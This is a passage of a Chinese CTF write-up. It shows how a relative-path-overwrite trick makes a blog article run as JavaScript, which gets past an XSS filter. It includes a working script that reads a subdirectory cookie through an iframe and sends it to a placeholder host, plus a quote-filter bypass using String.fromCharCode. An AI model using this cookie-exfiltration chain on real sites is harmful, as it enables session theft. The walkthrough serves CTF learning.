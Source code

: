 把635替换成你的文章代码,这里对于服务器来说访问的是

`http://39.107.33.96:20000/index.php`

但是对于浏览器来说他访问的就是

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php`

然后这个时候浏览器会发起js请求去请求原本index.php会加载的`../static/js/bootstrap.min.js`就是向

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php/../static/js/bootstrap.min.js`

相当于

`http://39.107.33.96:20000/index.php/view/article/635/static/bootstrap.min.js`

这里访问的结果和访问

`http://39.107.33.96:20000/index.php/view/article/635/`

也就是你的文章的内容是一样的(不明白的可以自己本地测试)，不同的是浏览器是以js引擎去解析你的文章的，也就是会把你的文章当成一段js去执行。所以这里就可以绕过`<>`的过滤执行xss了。

所以我们新建一个文章内容为
```
var a = new XMLHttpRequest();
a.open('GET', 'yourvpsip', false);
a.send(null);
```
然后用浏览器访问

`http://39.107.33.96:20000/index.php/view/article/22957/..%2f..%2f..%2f..%2findex.php`

然后这里发现居然没有发起请求，查看源码发现是过滤了`"`和`'`，然后我就自作聪明的用反引号，然后我就陷入了无尽的玄学道路，我发现本地浏览器，vsp就可以收到请求

![](https://ctfwp.wetolink.com/2018qiangwang/5.png)

但是提交给bot就收不到请求，然后我就一直在这里卡了超级长的时间，期间还问了出题人,bot等问题…直到晚上用`String.fromCharCode`才解决了这个玄学问题(这个点真心卡了我好久),后面就比较简单了收到请求后发现cookie有提示

联想到国赛的一道读取子目录cookie的题目
>https://www.lorexxar.cn/2017/07/11/guosai2017/

脚本拿来改了改就可以get子目录cookie了

```
var iframe = document.createElement("iframe");
iframe.src = "/QWB_f14g/QWB";
iframe.id = "frame";
document.body.appendChild(iframe);
iframe.onload = function (){
  	var c = document.getElementById('frame').contentWindow.document.cookie;
	var n0t = document.createElement("link");
	n0t.setAttribute("rel", "prefetch");
	n0t.setAttribute("href", "//xxx/?" + c);
	document.head.appendChild(n0t);
}
```
然后把所有引号之间的内容用String.fromcode()编码一下
